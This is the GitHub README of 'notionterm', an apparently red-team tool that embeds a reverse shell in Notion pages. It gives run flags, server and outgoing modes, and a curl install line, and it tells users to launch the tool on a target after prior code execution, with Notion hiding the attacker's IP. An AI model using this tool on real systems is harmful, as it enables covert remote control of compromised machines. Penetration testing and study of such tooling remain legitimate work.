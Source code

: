 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>
</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>

</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed bidirectionnal HTTP communication between the target and notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion: [Page template](https://fluff-grade-468.notion.site/notionterm-template-19dc9d0bbae04f40b56c475f8cd79607)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm
```

Configuration can be made using:
- Flags
- Configuration table in notion page

You can choose between:
*    `-button-url` string
        override button url (useful if notionterm service is behind a proxy)
*  `-delay` int
        delay between each api call (default 500)
*  `-p` string
        specify target listening port (HTTP traffic)
 * `-serve`
        use notionterm in server mode .i.e wait for request specifying the notion page url to add terminal
*  `-shell` string
        shell runtime ("sh,bash and cmd.exe") (default "sh")

#### Server mode
To quickly obtain terminal in any notion page you can use the server mode (Requirement: *integration w/ write access to the page*)

**First**, Launch notionterm on target with server mode enable:
```shell
notionterm -server [flags]
```
**Then**, when/where you want to get a terminal in your notion page create an embed block with url containing the page id *(`CTRL+L`to get it)*: `https://[TARGET_URL]/notionterm?url=[PAGE_ID]`.

Wait..

**And that's all!**

### Outgoing mode
**+**: No need to have a HTTP server reachable on target
```shell
notionterm -outgoing [flags]
```
Launch notionterm and immediatly request notion page to retrieve command to execute (do not wait the button to be clicked).



## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
